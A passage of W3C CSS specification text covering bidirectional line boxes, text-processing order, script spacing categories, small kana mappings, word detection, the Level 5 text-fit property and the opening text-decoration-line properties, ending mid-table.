#### 9.3.  Bidirectionality and Line Boxes {#css-text-4:bidi-linebox}

The start and end sides of a line box are determined by the inline base direction of the line box. Although they usually match, the inline base direction of a line box is distinct from the inline base direction of the containing block or the bidi paragraph. The line box’s inline base direction affects `text-align-all`, `text-align-last`, `text-indent`, and `hanging-punctuation`—​i.e. the position and alignment of its contents with respect to its edges. It does not affect the formatting or ordering of inline content (which is controlled by the [Unicode Bidirectional Algorithm](https://www.unicode.org/reports/tr9/) as applied by [CSS Writing Modes](#css-writing-modes-4) [UAX9] [CSS-WRITING-MODES-4]).

In most cases, a line box’s inline base direction is given by its containing block’s computed `direction`. However, if its containing block has `unicode-bidi: plaintext` [CSS-WRITING-MODES-4]:

- If the bidi paragraph to which the line box belongs (that is, the bidi paragraph for which the line box holds content) has strong directionality, the line box’s inline base direction is that direction.
- If the line box is empty (i.e. contains no atomic inlines or characters other than the newline character, if any) or otherwise has no strong directionality (contains only weak or neutral characters), its inline base direction is taken from the preceding line box (if any), or, if this is the first line box in the containing block, from the `direction` property of the containing block. (This can result in an RTL line box whose contents have an LTR base direction.)

> **Example:** In the following example, assuming the `<block>` is a start-aligned preformatted block (`display: block; white-space: pre; text-align: start`), every other line is right-aligned:
>
> ```
> <block style="unicode-bidi: plaintext">
> français
> فارسی
> français
> فارسی
> français
> فارسی
> </block>
> ```

> **Example:** Because neutral characters (such as punctuation) and isolated runs are skipped when [finding the inline base direction of a plaintext bidi paragraph](http://unicode.org/reports/tr9/#P2), the line box in the following example will be left-to-right (and thus left-aligned given `text-align: start`), as dictated by the first strong character, ‘h’:
>
> ```
> <para style="display: block; direction: rtl; unicode-bidi:plaintext">
> “<quote style="unicode-bidi:plaintext">שלום!</quote>”, they said.
> </para>
> ```

> **Example:** ```
> <textarea style="direction: rtl; unicode-bidi:plaintext">
>
> Hello!
>
> </textarea>
> ```
>
> Because of `unicode-bidi: plaintext`, the “Hello!” is typeset LTR (i.e. with the exclamation mark on the right side) and left-aligned, ignoring the containing block’s RTL `direction`. This makes the empty line following it LTR as well, which means that a caret on that line should appear at its left edge. The empty first line, however, is right-aligned: having no preceding line, it assumes the RTL direction of its containing block.

### Appendix A: Text Processing Order of Operations {#css-text-4:order}

*This appendix is normative.*

The following list defines the order of text operations. (Implementations are not bound to this order as long as the resulting layout is the same.)

1. [§ 4.2 White Space Trimming: the white-space-trim property](#css-text-4:white-space-trim)
2. [white space processing](#css-text-4:white-space-phase-1) part I (pre-wrapping)
3. [§ 2.2 Expanding Between Words: the word-space-transform property](#css-text-4:word-space-transform) and [text transformation](#css-text-4:transforming)
4. [text combination](#css-writing-modes-4:text-combine-upright) [CSS-WRITING-MODES-4]
5. [text orientation](#css-writing-modes-4:text-orientation) [CSS-WRITING-MODES-4]
6. text wrapping while applying per line:

  1. [indentation](#css-text-4:text-indent-property)
  2. [bidirectional reordering](#css-writing-modes-4:text-direction) [CSS2] / [CSS-WRITING-MODES-4]
  3. [white space processing](#css-text-4:white-space-phase-2) part II
  4. `line-padding`, `letter-spacing`, `word-spacing`, and `text-spacing`
  5. [font/glyph selection and positioning](#css-fonts-4) [CSS-FONTS-3]
  6. [hanging punctuation](#css-text-4:hanging-punctuation-property)

   > **Note:** These operations can impact how much text fits on the line, and thus loop back to wrapping.
7. [justification](#css-text-4:justification) (which may affect glyph selection and/or text wrapping, looping back into that step)
8. [text alignment](#css-text-4:text-align-property)
9. [text group alignment](#css-text-4:text-group-align-property)

### Appendix B: Conversion to Plaintext {#css-text-4:plaintext}

*This appendix is normative* for the purpose of plaintext copy-paste operations.

When a CSS-rendered document is converted to a plaintext format, it is expected that:

- The `text-transform` property has no effect.
- `white-space-trim` and [§ 4.3.1 Phase I: Collapsing and Transformation](#css-text-4:white-space-phase-1) is applied and any sequence of collapsible white space at the beginning of a block or immediately following a forced line break is removed.

### Appendix C: Default UA Stylesheet {#css-text-4:default-stylesheet}

*This appendix is informative,* and is to help UA developers to implement a default stylesheet for HTML, but UA developers are free to ignore or modify as appropriate.

> **Example:** ```
> /* make option elements align together */
> option { text-align: match-parent; }
>
> /* do not allow white space to collapse in textarea */
> textarea { white-space-collapse: preserve !important; }
>
> /* preserve character grid in preformatted text */
> pre, code, kbd, samp, tt, listing, xmp, plaintext { text-spacing: none; }
>
> /* Avoid hanging punctuation inheriting into preformatted blocks */
> pre { hanging-punctuation: none; }
> ```

### Appendix D: Scripts and Spacing {#css-text-4:script-groups}

*This appendix is normative.*

Typographic behavior varies somewhat by language, but varies drastically by writing system. This appendix categorizes some common scripts in Unicode 6.0 according to their justification and spacing behavior. Category descriptions are descriptive, not prescriptive; the determining factor is the prioritization of justification opportunities.

****block scripts****

: CJK and by extension all Wide characters (see [East Asian Width](https://www.unicode.org/reports/tr11/) [UAX11]). The following Unicode scripts are included: Bopomofo, Han, Hangul, Hiragana, Katakana, and Yi. Characters of the East Asian Width property `Wide` and `Fullwidth` are also included, but `Ambiguous` characters are included only if the writing system is Chinese, Korean, or Japanese.

****clustered scripts****

: Clustered scripts have discrete units and break only at word boundaries, but do not use visible word separators. They prioritize stretching spaces, but comfortably admit inter-character spacing for justification. The clustered scripts include, but are not limited to, the following Unicode scripts: Khmer, Lao, Myanmar, New Tai Lue, Tai Le, Tai Tham, Tai Viet, Thai

****cursive scripts****

: Cursive scripts do not admit gaps between their letters for either justification or `letter-spacing`. The following Unicode scripts are included: Arabic, Hanifi Rohingya, Mandaic, Mongolian, N’Ko, Phags Pa, Syriac

  > **Note:** Indic scripts with baseline connectors (such as Devanagari and Gujarati) *are not* considered cursive scripts, and *do* admit such gaps between typographic character units. See [Indic Layout Requirements](https://www.w3.org/TR/ilreq/). [ILREQ]

User agents should update this list as they update their Unicode support to handle as-yet-unencoded cursive scripts in future versions of Unicode, and are encouraged to ask the CSSWG to update this spec accordingly.

### Appendix E: Characters and Properties {#css-text-4:character-properties}

*This appendix is normative.*

Unicode defines four code point-level properties that are referenced in CSS typesetting:

****East Asian width property****

: Defined in [Unicode Standard Annex #11](http://www.unicode.org/reports/tr11/#Definitions) [UAX11] and given as the `East_Asian_Width` property in the [Unicode Character Database](https://www.unicode.org/reports/tr44/) [UAX44].

****general category****

: Defined in [Unicode Standard Annex #44](http://www.unicode.org/reports/tr44/#General_Category_Values) [UAX44] and given as the `General_Category` property in the [Unicode Character Database](https://www.unicode.org/reports/tr44/) [UAX44].

****extended script property****

: Defined in [Unicode Standard Annex #24](http://www.unicode.org/reports/tr24/#Values) [UAX24] and given as the `Script` property in the [Unicode Character Database](https://www.unicode.org/reports/tr44/) [UAX44]. UAs must also include any ScriptExtensions.txt assignments in this mapping.

****Vertical Orientation****

: Defined in [Unicode Standard Annex #50](http://www.unicode.org/reports/tr50/) [UAX50] as the Vertical_Orientation property in the [Unicode Character Database](https://www.unicode.org/reports/tr44/) [UAX44].

Unicode defines properties for individual code points, but sometimes it is necessary to determine the properties of a typographic character unit. For the purposes of CSS Text, the properties of a typographic character unit are given by the base character of its first grapheme cluster—​except in two cases:

- Grapheme clusters formed with an Enclosing Mark (`Me`) of the Common script are considered to be Other Symbols (`So`) in the Common script. They are assumed to have the same Unicode properties as the replacement character (U+FFFD).
- Grapheme clusters formed with a Space Separator (`Zs`) as the base are considered to be Modifier Symbols (`Sk`). They are assumed to have the same East Asian Width property as the base, but take their other properties from the first combining character in the sequence.

### Appendix F: Identifying the Content Writing System {#css-text-4:script-tagging}

*This appendix is normative.*

While most languages have a preferred writing system, some have multiple, and most can also be transcribed into one or more foreign writing systems. As a common example, most languages have at least one Latin transcription, and can thus be written in the Latin writing system. Transcribed texts typically adopt the typographic conventions of the writing system: for example Japanese “romaji” and Chinese Pinyin use Latin letters and word spaces, and follow Latin line-breaking and justification practices accordingly. As another example, historical ideographic Korean (`ko-Hani`) does not use word spaces, and should therefore be typeset similar to Chinese rather than modern Korean.

In HTML or any other document language using BCP47 tags for identifying languages to declare the content language, authors can disambiguate or indicate the use of an atypical writing system with script subtags. [BCP47] For example, to indicate use of the Latin writing system for languages which don’t natively use it, the `-Latn` script subtag can be added, e.g. `ja-Latn` for Japanese romaji. Other subtags exist for other writing systems, see ISO’s Code for the Representation of Names of Scripts and the [ISO15924 script tag registry](http://unicode.org/iso15924/iso15924-codes.html). [ISO15924]

> **Example:** Some common/historical examples of using BCP47 tags with script subtags:
>
> **`zh-Latn`**
>
> : Chinese, written in Latin transcription.
>
> **`ko-Hani`**
>
> : Korean, written in Hanja (Chinese ideographic characters).
>
> **`tr-Arab`**
>
> : Turkish, written in Arabic script.
>
> **`mn-Cyrl`**
>
> : Mongolian, written in Cyrillic.
>
> **`mn-Mong`**
>
> : Mongolian, written in traditional Mongolian script.

However, BCP47 script subtags are not typically used (and are in fact discouraged) for languages strongly associated with a single writing system: instead that writing system is expected to be implied when no other is specified. [BCP47] IANA maintains a database of various languages’ most common writing system via the `Suppress-Script` field in its [language subtag registry](https://www.iana.org/assignments/language-subtag-registry/language-subtag-registry) for this purpose.

> **Note:** More advice on language tagging can be found in the [Internationalization Working Group](https://www.w3.org/International/core/)’s [“Language tags in HTML and XML”](https://www.w3.org/International/articles/language-tags/) and [“Choosing a Language Tag”](https://www.w3.org/International/questions/qa-choosing-language-tags).

When no writing system is explicitly indicated, UAs should assume the most common writing system of the declared content language for language-sensitive typographic behaviors such as line-breaking or justification. However, UAs must not assume that writing system if the author has explicitly declared a different one. If the UA has no language-specific knowledge of a particular language and writing system combination, it must use the typographic conventions of the declared writing system (assuming the conventions of a different language if necessary), not the conventions of the declared language in an assumed writing system, which would be inappropriate to the declared writing system.

The full correspondence between languages and their most common writing systems is out of scope for this document. However, user agents must assume at least the following:

- If the content language is Chinese and the writing system is unspecified, or for any content language if the writing system to specified to be one of the `Hant`, `Hans`, `Hani`, `Hanb`, or `Bopo` ISO script codes, then the writing system is **Chinese**.
- If the content language is Japanese and the writing system is unspecified, or for any content language if the writing system to specified to be one of the `Jpan`, `Hrkt`, `Hira`, or `Kana` ISO script codes, then the writing system is **Japanese**.
- If the content language is Korean and the writing system is unspecified, or for any content language if the writing system to specified to be one of the `Kore`, `Hang`, or `Jamo` ISO script codes, then the writing system is **Korean**.
- The writing system is only considered to be **unknown** if the content language itself is unknown, or if it explicitly indicates an unknown writing system.

  > **Note:** Mere omission of the writing system information when the content language is declared means the that the writing system is implied, not unknown.

### Appendix G: Small Kana Mappings {#css-text-4:small-kana}

*This appendix is normative.*

| **Small** | **Full-size** |
| --- | --- |
| ぁ U+3041 | あ U+3042 |
| ぃ U+3043 | い U+3044 |
| ぅ U+3045 | う U+3046 |
| ぇ U+3047 | え U+3048 |
| ぉ U+3049 | お U+304A |
| ゕ U+3095 | か U+304B |
| ゖ U+3096 | け U+3051 |
| 𛄲 U+1B132 | こ U+3053 |
| っ U+3063 | つ U+3064 |
| ゃ U+3083 | や U+3084 |
| ゅ U+3085 | ゆ U+3086 |
| ょ U+3087 | よ U+3088 |
| ゎ U+308E | わ U+308F |
| 𛅐 U+1B150 | ゐ U+3090 |
| 𛅑 U+1B151 | ゑ U+3091 |
| 𛅒 U+1B152 | を U+3092 |
| ァ U+30A1 | ア U+30A2 |
| ィ U+30A3 | イ U+30A4 |
| ゥ U+30A5 | ウ U+30A6 |
| ェ U+30A7 | エ U+30A8 |
| ォ U+30A9 | オ U+30AA |
| ヵ U+30F5 | カ U+30AB |
| ㇰ U+31F0 | ク U+30AF |
| ヶ U+30F6 | ケ U+30B1 |
| 𛅕 U+1B155 | コ U+30B3 |
| ㇱ U+31F1 | シ U+30B7 |
| ㇲ U+31F2 | ス U+30B9 |
| ッ U+30C3 | ツ U+30C4 |
| ㇳ U+31F3 | ト U+30C8 |
| ㇴ U+31F4 | ヌ U+30CC |
| ㇵ U+31F5 | ハ U+30CF |
| ㇶ U+31F6 | ヒ U+30D2 |
| ㇷ U+31F7 | フ U+30D5 |
| ㇸ U+31F8 | ヘ U+30D8 |
| ㇹ U+31F9 | ホ U+30DB |
| ㇺ U+31FA | ム U+30E0 |
| ャ U+30E3 | ヤ U+30E4 |
| ュ U+30E5 | ユ U+30E6 |
| ョ U+30E7 | ヨ U+30E8 |
| ㇻ U+31FB | ラ U+30E9 |
| ㇼ U+31FC | リ U+30EA |
| ㇽ U+31FD | ル U+30EB |
| ㇾ U+31FE | レ U+30EC |
| ㇿ U+31FF | ロ U+30ED |
| ヮ U+30EE | ワ U+30EF |
| 𛅤 U+1B164 | ヰ U+30F0 |
| 𛅥 U+1B165 | ヱ U+30F1 |
| 𛅦 U+1B166 | ヲ U+30F2 |
| 𛅧 U+1B167 | ン U+30F3 |
| ｧ U+FF67 | ｱ U+FF71 |
| ｨ U+FF68 | ｲ U+FF72 |
| ｩ U+FF69 | ｳ U+FF73 |
| ｪ U+FF6A | ｴ U+FF74 |
| ｫ U+FF6B | ｵ U+FF75 |
| ｯ U+FF6F | ﾂ U+FF82 |
| ｬ U+FF6C | ﾔ U+FF94 |
| ｭ U+FF6D | ﾕ U+FF95 |
| ｮ U+FF6E | ﾖ U+FF96 |

### Appendix H: Word and Phrase Detection {#css-text-4:word-phrase-detection}

*This appendix is normative.*

A few operations in this specification depend on automated **word boundary detection** or **phrase boundary detection**.

Both operations are similar: the user agent performs linguistic analysis of the text to identify language-specific meaningful sequences of characters. They differ only targetting different units of text: either words or phrases.

While easily understood in a broad sense, both concepts of word and phrase are difficult to precisely define, especially in a way that works accross multiple languages. Nonetheless, in this context:

- A word is a recognizable semantic unit which may comprise one or more characters or syllables.

  > **Note:** See [What is a word?](https://www.w3.org/International/articles/typography/linebreak.en#whatisword) for some discussion of this concept.
- A phrase is a short grouping of one or several words standing together as a conceptual or grammatical unit, forming a component of a clause or sentence.

  > **Note:** This is not to be confused with the French word *phrase* which means sentence rather than phrase in the English sense used here. In Japanese, this corresponds to the concept of 文節.

  > **Example:** A phrase could be a noun with its article and prepositions or postpositions, a phrasal verb, a compound verb tense…

The start and end position of each detected word or phrase is called a **word boundary** or **phrase boundary**. By themselves, word and phrase boundaries are not observable, but properties like `word-space-transform` or `word-break` can cause visible effects at those positions.

The specific algorithm to detect word or phrases and to place their boundaries is UA-dependent, and may take into account a variety of factors or approaches, such as dictionary-based lexical analysis, identification of punctuation or other delimiting characters, morphological analysis, machine learning methods…

The following constraints must nevertheless be respected:

- The user agent must not place a word or phrase boundary between characters that compose a single typographic character unit.
- The user agent must not place a word or phrase boundary adjacent to any characters with the line breaking class GL, WJ, or ZWJ; when two would-be words or phrases are separated by such characters, they must be treated as a single one. [UAX14]
- If a word or phrase is immediately followed by one or more of the following characters, the user agent *must* consider them to be part of the preceeding word or phrase:

  - word-separator characters
  - other space separators
  - U+200B ZERO WIDTH SPACE characters
- Punctuation is not a phrase by itself: it should to be attached to the relevant side of an adjacent linguistic word or phrase. For example, enclosing punctuation such as brackets and quotes are part of the phrase they enclose; commas and semicolons are suffixed to the preceding phrase; U+00BF INVERTED QUESTION MARK is attached to the subsequent word; etc.

  However, unconventional use of punctuation, such as smileys, kaomoji, or Perl snippets, may cause the user agent to need to deviate from this principle.
- Inline box boundaries and out-of-flow elements must be ignored when determining word or phrase boundaries. However, if a word or phrase boundary is found at the same position as one or more inline box boundaries, the word or phrase boundary must be inserted in the outermost element that participates in this inline box boundary.

  > **Example:** In the following example, the red “`|`” indicates reasonable positions for a user agent detecting word boundaries to place them:
  >
  > ```
  > กรุงเทพ|คือ|สวยงาม
  > ```
  >
  > If that sentence had contained some inline markup, the following example shows the correct position to place the word boundaries:
  >
  > ```
  > กรุงเทพ|คือ|<em>สวยงาม</em>
  > ```
  >
  > The following example shows *incorrect* positions:
  >
  > ```
  > กรุงเทพ|คือ<em>|สวยงาม</em>
  > ```
  >
  > The following shows the correct positions in a more contrived situation:
  >
  > ```
  > กรุงเทพ|<b><u>คือ</u>|<em>สวยงาม</em></b>
  > ```

---

## CSS Text Module Level 5 {#css-text-5}

- **Shortname:** `css-text-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-text-4/](https://drafts.csswg.org/css-text-4/)
- **Published TR:** [https://www.w3.org/TR/css-text-4/](https://www.w3.org/TR/css-text-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-06-04
- **Diff Specification Over:** [CSS Text Module Level 4 (`css-text-4`)](#css-text-4)

### 1.  Introduction {#css-text-5:intro}

This module describes the typesetting controls of CSS; that is, the features of CSS that control the translation of source text to formatted, line-wrapped text.

This specification describes features introduced in Level 5; it is a diff against [css-text-4].

#### 1.1.  Text fitting: the `text-fit` property {#css-text-5:text-fit-property}

| Field | Value |
| --- | --- |
| Name: | **text-fit** |
| [Value:](#css-values-4:value-defs) | [ none \| grow \| shrink ] [consistent \| per-line \| per-line-all]? `<percentage>`? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keywords or computed `<percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `text-fit` property describes how inline-level contents are scaled if they do not fit to the line box.

Values have the following meanings:

****none****

: The user agent doesn’t scale inline-level contents to fit to the line box.

****grow****

: The user agent scales up inline-level contents to fit to the line box.

****shrink****

: The user agent scales down inline-level contents to fit to the line box.

****consistent****

: Specifies that all lines in the container are scaled with a single scaling factor. This keyword has no effect if `none` is specified. If none of `consistent`, `per-line`, or `per-line-all` are specified, `consistent` is assumed.

****per-line****

: Specifies that each line is scaled with its own scaling factor. However, the last line of the block and lines that end in a forced break are not scaled. This keyword has no effect if `none` is specified.

****per-line-all****

: Specifies that each line is scaled with its own scaling factor, including the last line of the block and lines that end in a forced break. This keyword has no effect if `none` is specified.

****<percentage>****

: Specifies the limit of the scaling factor. If `grow` is specified and the value is 100% or greater, it is the maximum scaling factor. If `shrink` is specified and the value is between 0% and 100% inclusive, it is the minimum scaling factor. Otherwise, or if this component is omitted, there is no limit on the scaling factor.

This property provides a functionality to make inline-level contents exactly fill the inline size of the line box. Unlike `justify` of the `text-align` property, which achieves this by adjusting spacing between characters, this property scales the font size.

When `grow` or `shrink` is specified, a line scaling factor is computed for each line box. If `consistent` applies, all line boxes are scaled by the smallest computed line scaling factor. Otherwise, each line box is scaled by its own line scaling factor.

This property does not affect the `font-size` computed value, and thus does not affect font-size-relative `<length>` values of other properties. For example, "line-height: 1.5em" and "letter-spacing: 0.1em" are not affected by this scaling.

The used value of the text `font-size` is its computed value multiplied by the line scaling factor.

Scaling can change the block size of a line box, which can in turn change its position along the block-axis. If any feature is active that would cause the inline size of the line box to change based on its block-axis position (such as `float` or `initial-letter`), scaling is disabled for the block.

> **Issue:** If the inline size of a block container depends on the size of the viewport, its apparent inline size may not change even if the user changes the page zoom level. In that case, if text is fitted with this feature, the text size may not change at all even though the zoom level has changed. There is no agreement yet on how to deal with this issue. See [csswg#12886](https://github.com/w3c/csswg-drafts/issues/12886).

##### 1.1.1. Computing line scaling factor {#css-text-5:text-fit-scaling-factor}

The parts of the line box’s contents that can be scaled by this property are called **scalable parts**. These include:

- Text, including text in inline boxes, but excluding trailing white space.
- Spacing whose inline size is proportional to the `font-size` used value. E.g. percentage-based `letter-spacing` or `word-spacing`, and `text-autospace`.

> **Note:** `text-indent`, `line-padding`, non-percentage-based `letter-spacing` and `word-spacing`, and atomic inlines are not scalable parts. The inline-axis `padding`, `border`, and `margin` of inline boxes are also not scalable parts.

A **line scaling factor** is the ratio by which the scalable parts of a line must be scaled in order to make its inline-level content exactly fit the line box’s inline size.

A line scaling factor is computed from:

- The total inline size of the scalable parts in the line.
- The remaining space in the line box, including any trailing whitespace (which may be negative if the content overflows the line box).

If a `<percentage>` is specified, it clamps the line scaling factor.

> **Note:** A simple calculation for the line scaling factor would be `(A + B) / A`, where A is the total inline size of scalable parts and B is the remaining space. However, due to [optical sizing](#css-fonts-4:font-optical-sizing-def), the inline size of text might not be perfectly proportional to its `font-size`. The exact method for determining a reasonable line scaling factor is up to the implementation.

The line scaling factor for a line box with no scalable parts is 1.

### Appendix A: Text Processing Order of Operations {#css-text-5:order}

- [text fitting](#css-text-5:text-fit-property) is applied after text wrapping and before text justification.

  - [font/glyph selection and positioning](#css-fonts-4) [CSS-FONTS-3] may be done again
  - `letter-spacing`, `word-spacing`, and `text-spacing` may be updated.

---

## CSS Text Decoration Module Level 4 {#css-text-decor-4}

- **Shortname:** `css-text-decor-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-text-decor-4/](https://drafts.csswg.org/css-text-decor-4/)
- **Published TR:** [https://www.w3.org/TR/css-text-decor-4/](https://www.w3.org/TR/css-text-decor-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-08-17

### 1.  Introduction {#css-text-decor-4:intro}

*This subsection is non-normative.*

This module covers text decoration, i.e. decorating the glyphs of the text once typeset according to font and typographic rules. (See [CSS-TEXT-3] and [CSS-FONTS-3].) Such features are traditionally used not only for purely decorative purposes, but also in some cases to show emphasis, for honorifics, and to indicate editorial changes such as insertions, deletions, and misspellings.

CSS Levels 1 and 2 only defined very basic [line decorations](#css-text-decor-4:line-decoration) (underlines, overlines, and strike-throughs) appropriate to Western typographical traditions. Level 3 of this module added the ability to change the color, style, position, and continuity of these decorations, and also introduced [emphasis marks](#css-text-decor-4:emphasis-marks) (traditionally used in East Asian typography), and [shadows](#css-text-decor-4:text-shadow-property) (which were proposed then deferred from Level 2). Level 4 introduces additional controls over these decorations.

#### 1.1.  Module Interactions {#css-text-decor-4:placement}

This module replaces and extends the text-decorating features defined in [CSS-TEXT-DECOR-3].

All of the properties in this module can be applied to the `::first-line` and `::first-letter` pseudo-elements.

#### 1.2.  Value Definitions {#css-text-decor-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.3. Terminology {#css-text-decor-4:terms}

The terms typographic character unit (**character**), typographic letter unit (letter), and content language as used in this specification are defined in [CSS-TEXT-3]. Other terminology and concepts used in this specification are defined in [CSS2] and [CSS-WRITING-MODES-4].

### 2.  Line Decoration: Underline, Overline, and Strike-Through {#css-text-decor-4:line-decoration}

The following properties describe line decorations that are added to the content of an element. When specified on or propagated to an inline box, that box becomes a **decorating box** for that decoration, applying the decoration to all its box fragments. The decoration is then further propagated to any in-flow block-level boxes that split the inline (see [CSS2.1 section 9.2.1.1](#css2:anonymous-block-level)). When specified on or propagated to a block container that establishes an inline formatting context, the decorations are propagated to an anonymous inline box that wraps all the in-flow inline-level children of the block container. When specified on or propagated to a ruby container, the decorations are propagated only to the ruby base. For all other box types, the decorations are propagated to all in-flow children.

> **Note:** that text decorations are not propagated to any out-of-flow descendants, nor to the contents of atomic inline-level descendants such as inline blocks and inline tables. They are also not propagated to inline children of inline boxes, although the decoration is *applied* to such boxes.

Underlines, overlines, and line-throughs are drawn only for non-replaced inline boxes, and are drawn across all text (including white space, letter spacing, and word spacing) except spacing (white space, letter spacing, and word spacing) at the beginning and end of a line. Atomic inlines, such as images and inline blocks, are not decorated. Margins, borders, and padding of the decorating box are always skipped, however the margins, border, and padding of descendant inline boxes are not.

> **Note:** that CSS 2.1 required skipping margins, borders, and padding always. In Level 3 and beyond, by default only the margins, borders, and padding of the decorating box are skipped. In the future CSS2.1 may be updated to match this new default.

Relatively positioning a descendant moves all text decorations applied to it along with the descendant’s text; it does not affect calculation of the decoration’s initial position on that line. The `visibility` property, `text-shadow`, filters, and other graphical transformations likewise also affect all text decorations applied to that box—​including decorations propagated from an ancestor box—​and do not affect the calculation of their initial positions or thicknesses. (In the case of line decorations drawn over an atomic inline or across the margins/borders/padding of a non-replaced inline box, they are analogously associated with the affected atomic inline / non-replaced inline box rather than with the decorating box.)

> **Example:** In the following style sheet and document fragment:
>
> ```
> blockquote { text-decoration: underline; color: blue; }
> em { display: block; }
> cite { color: fuchsia; }
> ```
>
> ```
> <blockquote>
>  <p>
>   <span>
>    Help, help!
>    <em> I am under a hat! </em>
>
>    <cite> —GwieF </cite>
>   </span>
>  </p>
> </blockquote>
> ```
>
> ...the underlining for the blockquote element is propagated to an anonymous inline box that surrounds the span element, causing the text "Help, help!" to be blue, with the blue underlining from the anonymous inline underneath it, the color being taken from the blockquote element. The `<em>text</em>` in the em block is also underlined, as it is in an in-flow block to which the underline is propagated. The final line of text is fuchsia, but the underline underneath it is still the blue underline from the anonymous inline element.  This diagram shows the boxes involved in the example above. The rounded aqua line represents the anonymous inline element wrapping the inline contents of the paragraph element, the rounded blue line represents the span element, and the orange lines represent the blocks.

> **Example:** In the following style sheet and document fragment:
>
> ```
> div { color: black; font-size: 48px; text-decoration: underline; text-shadow: blue 0px 50px 0px; }
> span { font-size: 20px; vertical-align: top; text-shadow: green 0px 100px 0px; }
> ```
>
> ```
> <div>Help, help! <span>I am under a hat!</span></div>
> ```
>
> ...the <div> is the decorating box for its underline (in black), which is rendered uninterrupted through both the <div> and the <span>. Unlike line decorations, however, `text-shadow` is inherited as a property; therefore the green text shadow on the <span> overrides the blue text shadow on the <div>. As a result, when the shadows are painted, the shadow of the <div>’s underline is disjoint across the two elements. 

> **Note:** Line decorations are propagated through the box tree, not through inheritance, and thus have no effect on descendants when specified on an element with `display: contents`.

#### 2.1.  Text Decoration Lines: the `text-decoration-line` property {#css-text-decor-4:text-decoration-line-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-line** |
| [Value:](#css-values-4:value-defs) | none \| [ underline \|\| overline \|\| line-through \|\| blink ] \| spelling-error \| grammar-error |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no (but see prose, above) |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property, which is a sub-property of the `text-decoration` shorthand, specifies what line decorations, if any, are added by the element. Values other than `none` cause the element to originate the indicated text decorations, and to apply and propagate it as described [above](#css-text-decor-4:line-decoration).

> **Note:** Unless it is desired for the color, style, and thickness of the lines to be set by declarations lower in the cascade, it is safer to use the `text-decoration` shorthand instead of this longhand.

Values have the following meanings:

****none****

: Neither produces nor inhibits text decoration.

****underline****

: Each line of text is underlined.

****overline****

: Each line of text has a line over it (i.e. on the opposite side from an underline).

****line-through****

: Each line of text has a line through the middle.

****blink****

: The text blinks (alternates between visible and invisible). Conforming user agents may simply not blink the text. Note that not blinking the text is one technique to satisfy [checkpoint 3.3 of WAI-UAAG](https://www.w3.org/TR/UAAG/guidelines.html#tech-on-off-blinking-text). This value is **deprecated** in favor of Animations [CSS3-ANIMATIONS].

****spelling-error****

: This value indicates the type of text decoration used by the user agent to highlight spelling mistakes. Its appearance is UA-defined, and may be platform-dependent. It is often rendered as a red wavy underline.

****grammar-error****

: This value indicates the type of text decoration used by the user agent to highlight grammar mistakes. Its appearance is UA defined, and may be platform-dependent. It is often rendered as a green wavy underline.

> **Note:** In vertical writing modes, `text-underline-position` can cause the underline and overline to switch sides. This allows the position of underlines to key off of language-specific preferences automatically.

When `spelling-error` or `grammar-error` apply, the user agent *must* disregard the other sub-properties of `text-decoration`, as well any other properties typically affecting the appearance of line decorations (such as `text-underline-position`, `color`, `stroke`, or `fill`) when rendering these decorations. However, the user agent may take into account the `accent-color` property.

#### 2.2.  Text Decoration Style: the `text-decoration-style` property {#css-text-decor-4:text-decoration-style-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-style** |
| [Value:](#css-values-4:value-defs) | solid \| double \| dotted \| dashed \| wavy |
| [Initial:](#css-cascade-6:initial-values) | solid |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property, which is a sub-property of the `text-decoration` shorthand, sets the line-drawing style of underlines, overlines, and line-throughs specified on the element with `text-decoration-line`, and affects all decorations originating from this element even if descendant boxes specify a different style.

Values have the same meaning as for the [border-style properties](#css-borders-4:the-border-style) [CSS-BACKGROUNDS-3]. **wavy** indicates a wavy line.

#### 2.3.  Text Decoration Color: the `text-decoration-color` property {#css-text-decor-4:text-decoration-color-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property, which is a sub-property of the `text-decoration` shorthand, sets the color of underlines, overlines, and line-throughs specified on the element with `text-decoration-line`, and affects all decorations originating from this element even if descendant boxes specify a different color.

#### 2.4.  Text Decoration Line Thickness: the `text-decoration-thickness` property {#css-text-decor-4:text-decoration-thickness-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-thickness** |
